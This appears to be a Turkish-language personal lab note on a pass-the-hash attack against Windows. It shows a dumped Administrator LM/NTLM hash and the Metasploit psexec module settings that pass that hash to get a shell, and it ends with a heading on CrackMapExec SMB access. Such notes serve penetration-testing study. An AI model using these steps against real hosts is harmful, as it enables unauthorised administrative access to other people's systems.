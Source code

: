 ## hashdump
Administrator: 500:<span style="background:#d4b106">aad3b435b51404eeaad3b435b51404ee</span>:<span style="background:#ff4d4f">e02bc503339d51f71d913c245d35b50b</span>:::

### Burada 500 RID 'dir ve en yetkili kulanıcıyı gösterir.
### Serı renkli olan hash LM hash'tir Zaten her user için de aynıdır.
#### Kırmızı renkli olan ise bizi ilgilenndiren NTLM hashtir.

![[Pasted image 20240207220855.png]]

### e02bc503339d51f71d913c245d35b50b
## Bu hash'i özellikle kaydediyoruz. 

### <span style="background:#ff4d4f">Metasploit PsExec Module LM hash ve NTLM hash'leri belirtmemizi istiyor.</span>

---
## Şimdi CTRL+Z ile veya backgound komutuyla session'u gerş alıyoruz. Yeni modul için


### msf6 > search psexec
![[Pasted image 20240207221414.png]]
##  5   exploit/windows/smb/psexec
### use 5
![[Pasted image 20240207222940.png]]
### SMBuser : Administrator
### SmbPass: LM+NTLM HASH
aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b

---
## Pass-The-Hash Başarılı
![[Pasted image 20240207223250.png]]
>[!warning] Run dedik shell alamadık exploit dedik alamadık. 1 denemede başarısız olunca hemen bırakma. Girdiğin verileri kontrol et bir daha dene. Bu shell'i 2nci de aldık örneğin

---

#crackmapexec 
#crackmapexec-smb
## Crackmapexec SMB ile erişim sağlayacağız.
